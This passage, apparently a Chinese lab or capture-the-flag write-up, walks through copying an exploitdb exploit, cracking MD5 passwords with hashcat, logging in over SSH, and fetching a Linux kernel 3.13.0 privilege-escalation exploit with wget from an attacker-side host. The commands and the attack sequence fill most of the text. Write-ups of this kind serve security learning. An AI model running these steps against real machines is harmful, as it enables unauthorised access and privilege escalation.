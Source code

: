 由于我们使用的是kali Linux,自动安装searchsploit,漏洞存储在/usr/share/exploitdb/exploits/中

所以我们使用`cp /usr/share/exploitdb/exploits/linux/remote/36337.py .`

拷贝exp到当前目录![截屏2021-08-04 下午3.56.58](https://tva1.sinaimg.cn/large/008i3skNly1gt4t9igj4uj310r0u00yk.jpg)

成功~

执行ls命令,发现有一个好玩的东西,passwords文件!

我们来康康有什么!~![截屏2021-08-04 下午3.58.03](https://tva1.sinaimg.cn/large/008i3skNly1gt4tam27dbj31fs09cmzv.jpg)

哦~好多账号和密码,可惜是md5加密后的

我们在网上搜索md5在线解密,获得密码的原文

或者,文件提示密码格式为4个数字加四个小写字母

我们可以使用hashcat进行破解~

`ashcat -m 0 -a 3 3f8184a7343664553fcb5337a3138814 ?d?d?d?d?l?l?l?l --force`

获取到用户名与密码后,我们来看看有什么用吧~

注意到前文的端口扫描,发现有22ssh服务开启,我们尝试登陆

经过尝试后,发现只有john账户才可以登录,使用命令`proxychains ssh john@172.17.0.1`进行登录~

![截屏2021-08-04 下午4.21.40](https://tva1.sinaimg.cn/large/008i3skNly1gt4tz7gxlij31fs082tat.jpg)

登录账户后,日常看一看账户信息,很可惜的是没有sudo权限,不然我们已经拥有密码,可以直接拥有root权限

在使用`uname -a`查看内核信息时出现了惊喜,3.13.0的内核?!现在的内核已经到了5.x

这么老的内核可能会有漏洞

我们再一次使用`searchsploit Linux Kernel 3.13.0`搜索漏洞,搜到一堆漏洞,但大多数都是.c结尾的c文件,需要编译后才可使用

#### 没有gcc??!!

通过`wget http://10.0.0.12/exp.c`获得exp后,尝试使用gcc进行编译

**居然没有gcc?!**

这可就麻烦了,没有编译软件,怎么生成可执行二进制文件呢?

思索过后,我决定在本地将exp进行编译

尝试过后,我发现因为环境不一样,大部分exp在本地是无法编译的,

有一个exp可以在本地编译,但是其中代码中有调用了gcc

![截屏2021-08-04 下午4.46.37](https://tva1.sinaimg.cn/large/008i3skNly1gt4up4ul4qj31140o8gp8.jpg)

### 那怎么办呢?改呗!

分析此处逻辑,其实就是调用了gcc生成一个动态链接库进行使用

那我们干脆在本地把动态链接库也准备好!
